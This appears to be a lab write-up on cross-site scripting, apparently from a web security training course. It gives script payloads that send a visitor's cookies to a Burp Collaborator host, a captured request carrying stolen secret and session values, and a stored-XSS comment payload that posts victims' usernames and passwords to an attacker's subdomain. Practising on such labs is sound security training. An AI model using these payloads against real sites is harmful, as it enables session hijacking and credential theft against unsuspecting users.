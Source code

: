 ```html
<script>document.location="http://htesdsptbqkc09yepc3vlbxkub01oq.burpcollaborator.net/?"+document.cookie</script>
<!-- official way -->
<script>fetch('https://x.x.x.x', {method: 'POST',mode: 'no-cors',body: document.cookie});</script>
```

HTTP response

```http
GET /?secret=9zJmuvblBTWDx****0ujs1t5Z1WiK2Hc;%20session=cThHNSqrZhe****dE3z09qZ7qNuGQQuN HTTP/1.1
Host: htesdsptbqkc09yepc3vlbxkub01oq.burpcollaborator.net
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

#### Exploiting cross-site scripting to capture passwords

> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user  views all comments after they are posted. To solve the lab, exploit the  vulnerability to exfiltrate the victim's username and password then use  these credentials to log in to the victim's account.        

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                        <p>
                            Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
                        </p>
                        <code class="code-scrollable">&lt;input name=username id=username&gt;
&lt;input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"&gt;</code>
                        <p>
                            This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.
                        </p>
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
                    </li>
                    <li>
                        Take a note of the value of the victim's username and password in the POST body.
                    </li>
                    <li>
                        Use the credentials to log in as the victim user.
                    </li>
                </ol>
            </div>
